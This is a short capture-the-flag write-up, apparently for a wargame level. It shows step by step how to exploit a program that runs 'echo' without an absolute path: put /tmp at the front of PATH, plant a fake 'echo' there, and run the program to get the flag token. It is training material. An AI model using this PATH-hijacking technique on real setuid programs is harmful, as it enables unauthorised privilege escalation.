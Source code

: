 # Level03

## Objective
Exploit the non-absolute path in the `level03` program to execute the `getflag` command and retrieve the flag.

## Steps

### Step 1: Identify Vulnerability
Use the `strings` command on `level03` to identify the command being executed:

```bash
strings level03 | grep Exploit
```

Result:
```plaintext
/usr/bin/env echo Exploit me
```

### Step 2: Manipulate PATH
Add `/tmp` to the beginning of the `$PATH` environment variable:

```bash
export PATH=/tmp:$PATH
```

### Step 3: Create Fake `echo` Command
Create a fake `echo` command in `/tmp` that contains the `getflag` command:

```bash
echo "getflag" > /tmp/echo
```

### Step 4: Provide Execution Rights
Give execution rights to the fake `echo` command:

```bash
chmod +x /tmp/echo
```

### Step 5: Execute `level03`
Run `./level03` to execute the manipulated command:

```bash
./level03
```

You should see the flag:

```plaintext
Check flag. Here is your token: qi0maab88jeaj46qoumi7maus
```

Congratulations! You've successfully exploited the vulnerability in `level03` and obtained the flag.